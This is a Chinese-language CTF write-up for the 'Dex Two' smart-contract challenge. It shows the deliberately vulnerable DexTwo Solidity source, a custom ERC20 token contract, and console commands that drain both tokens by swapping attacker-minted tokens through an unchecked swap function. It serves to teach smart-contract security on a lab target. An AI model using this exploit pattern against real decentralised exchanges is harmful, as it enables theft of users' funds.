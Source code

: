 ### 第二十三题 Dex Two
### 题目
此级别将要求您以不同的方式破坏DexTwo，这是对前一题目进行了细微修改的Dex合约。您需要从DexTwo合约中提取token1和token2的所有余额才能通过此题。一开始您可以得到10个token1和token2。DEX合约仍然以每个代币100个开始。
### 提示
- 交换方法是如何修改的？
- 你可以在攻击中使用自定义代币合约吗？
- 获取新实例
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    // 定义两个代币地址
    address public token1;
    address public token2;

    // 构造函数
    constructor() {}

    // 设置代币地址，只能由合约所有者调用
    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    // 添加流动性，只能由合约所有者调用
    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        // 从消息发送者转移指定数量的代币到合约地址
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    // 代币交换函数
    function swap(address from, address to, uint256 amount) public {
        // 确保消息发送者有足够的代币进行交换
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        // 计算交换数量
        uint256 swapAmount = getSwapAmount(from, to, amount);
        // 从消息发送者转移代币到合约地址
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        // 批准合约转移目标代币
        IERC20(to).approve(address(this), swapAmount);
        // 从合约地址转移目标代币到消息发送者
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    // 计算交换数量
    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        // 返回按比例计算的交换数量
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    // 批准函数
    function approve(address spender, uint256 amount) public {
        // 批准两个代币的转移
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    // 查询账户代币余额
    function balanceOf(address token, address account) public view returns (uint256) {
        // 返回指定账户的代币余额
        return IERC20(token).balanceOf(account);
    }
}

// 定义SwappableTokenTwo合约，继承ERC20合约
contract SwappableTokenTwo is ERC20 {
    // 定义去中心化交易所地址
    address private _dex;

    // 构造函数，初始化代币名称、符号和初始供应量
    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        // 铸造初始供应量的代币给消息发送者
        _mint(msg.sender, initialSupply);
        // 设置去中心化交易所地址
        _dex = dexInstance;
    }

    // 批准函数
    function approve(address owner, address spender, uint256 amount) public {
        // 确保批准者不是去中心化交易所地址
        require(owner != _dex, "InvalidApprover");
        // 调用父类的批准函数
        super._approve(owner, spender, amount);
    }
}
```

### 解题思路&过程
1. Dex two版本的题目跟上一题相比，去掉了require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");这一行，同时题目要求也变成要求我们让合约的2种token拥有数量都清0，可以再写一个token，然后将合约中的token，全部转移到我们的第三方token中即可。
2. token合约
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;


import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.2.0/contracts/token/ERC20/IERC20.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.2.0/contracts/token/ERC20/ERC20.sol";

contract Mytoken is ERC20 {
    address public target;
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```
3. 设置initialSupply为200，也就是让我们初始拥有200个恶意token。然后approve题目地址，并转给题目地址100个token，这样我们和题目合约初始情况下各拥有100个恶意合约的token。
4. 执行下面的代码
``
await contract.approve(player,1000)
await contract.approve(contract.address,1000)
token1 = (await contract.token1())
token2 = (await contract.token2())
// mytoken1和mytoken2分别对应2个部署的恶意合约的地址
mytoken1 = '0x3f4082b2CB234C9AA8a07aA155c490F30C3a1efC'
mytoken2 = '0xe1f59E568302978f628500096e87A2763F6d1D5f'
await contract.swap(mytoken1,token1,100)
await contract.swap(mytoken2,token2,100)``
6. 提交
